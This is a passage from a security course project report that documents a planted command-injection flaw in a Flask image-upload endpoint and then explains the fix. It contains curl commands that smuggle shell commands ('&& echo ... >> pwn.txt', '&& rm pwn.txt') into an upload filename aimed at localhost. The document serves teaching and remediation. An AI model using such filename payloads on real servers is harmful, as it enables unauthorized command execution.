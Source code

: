Now the packet contents are encrypted.




## Flaw 3: [A03:2021 - Injection](https://owasp.org/Top10/A03_2021-Injection/)

#### Location(s)


https://github.com/mejitos/cyber-security-base-2023-project-i/blob/398bee06a4f868e34acf4b618db9c4bc02cc4096/run.py#L192-L195

#### Description

The application uses Linux's `file` command to check the type of the
uploaded file. However the command uses the filename as the part of the
command. This allows malicious user to pass shell commands either by
uploading specifically named files to the server using the web
application or by using some other client like `curl` to pass arbitrary
filenames, and therefore arbitrary shell commands.

Example commands (NOTE: Linux solution) for exploitation:

```bash
# Create file called legit.txt which is sent to the server
touch legit.txt

# Send the file to the server with command injection as part
# of the filename. This creates file called 'pwn.txt' with
# contents "howdy doody from hacker".
#
# NOTE: Change the session cookie to your own cookie (can be
# taken from browser using devtools).
curl -X POST \
    localhost:5000/api/images \
    -F "image=@legit.txt;filename=legit.txt && echo 'howdy doody from hacker' >> pwn.txt" \
    --cookie "session=eyJ1c2VyIjp7ImlkIjoiY2YyZGQwODUtNjEyYS00MDg2LWJmMGMtZTgxMzIwMDRhZTA4IiwibmFtZSI6ImFsaWNlIn19.ZPr1LQ.QvB5s2c7S3SduLcBTrlupHSHGao"

# Remove the file created with the command injection
curl -X POST \
    localhost:5000/api/images \
    -F "image=@legit.txt;filename=legit.txt && rm pwn.txt" \
    --cookie "session=eyJ1c2VyIjp7ImlkIjoiY2YyZGQwODUtNjEyYS00MDg2LWJmMGMtZTgxMzIwMDRhZTA4IiwibmFtZSI6ImFsaWNlIn19.ZPr1LQ.QvB5s2c7S3SduLcBTrlupHSHGao"
```

#### Fix

The problem can be fixed by setting the keyword argument `shell=False`,
and passing the shell command as an array of strings instead of
concatenated string. This works because the command shell is not launched
anymore, and the given arguments are passed to the argument vector of the
`file` program, preventing any other programs or commands to be executed.
